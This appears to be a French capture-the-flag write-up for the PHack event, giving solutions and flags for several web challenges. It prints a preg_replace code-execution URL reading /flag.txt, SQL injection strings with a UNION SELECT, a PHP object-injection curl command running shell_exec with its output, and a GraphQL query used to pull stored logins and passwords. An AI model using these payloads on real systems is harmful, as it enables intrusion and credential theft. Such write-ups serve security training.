 **PHACK{CRX_F1l3_R3v3rs1nG}**

## Harduino

Simulateur d'affichage LCD Arduino, avec un code PHP pour donner le texte à afficher.

On peut passer le message à afficher : http://harduino.phack.fr/workspace/apps/arduino/arduino.php?message=test

il faut utiliser le preg_replace pour lire le flag.
RCE : 
*http://harduino.phack.fr/workspace/apps/arduino/arduino.php?message=%22.system(%27cat /flag.txt%27).%22*

**PHACK{W4SNT_DAT_HARD_AFT3R_ALL}**

## VOD
Injection SQL:
xwjtp3mj427zdp4tljiiivg2l5ijfvmt5lcsfaygtpp6cw254kykvpyd.onion:1337/platform.php?id=' OR '1'='1

' OR 1=2 UNION SELECT 1,2,group_concat(flag) FROM s3cr3t WHERE '1

**J'ai oublié de noter le flag**

## PHackTory
Confirmation par me créateur du chall qu'il faut DirBuster.
Hint : il faut trouver la bonne extension

-> zip
backup.zip

```
$ curl -v --data "is=1539&cool=test" "http://phacktory.phack.fr/?what=is&the=flag&please=O%3A9%3A%22PHackTory%22%3A3%3A%7Bs%3A4%3A%22type%22%3Bs%3A28%3A%ho%20shell_exec%28%27ls%20-la%27%29%3B%2F%2F%22%3Bs%3A8%3A%22quantity%22%3Bi%3A1%3Bs%3A5%3A%22order%22%3Bs%3A5%3A%22milky%22%3B%7D"
...
drwxrwxrwx 1 www-data www-data   4096 Apr  1 23:03 .
drwxr-xr-x 1 root     root       4096 Mar 31 09:51 ..
-rw-r--r-- 1 root     root     190706 Apr  1 22:56 backup.zip
-rw-r--r-- 1 root     root        771 Apr  1 22:56 config-126546845171616835186.php
drwxr-xr-x 2 root     root       4096 Apr  1 23:03 images
-rw-r--r-- 1 root     root       3346 Apr  1 22:56 index.php
```

**PHACK{l3s_cl0Ch3s_s0nT_p4s5ees_!}**

## Agenda
On a un endpoint GraphQL.
agenda-backend.phack.fr/graphql

Requête pour tout extraire :
{"query":"{__schema{queryType{name}...

Il y un objet Person avec login et mot de passe.
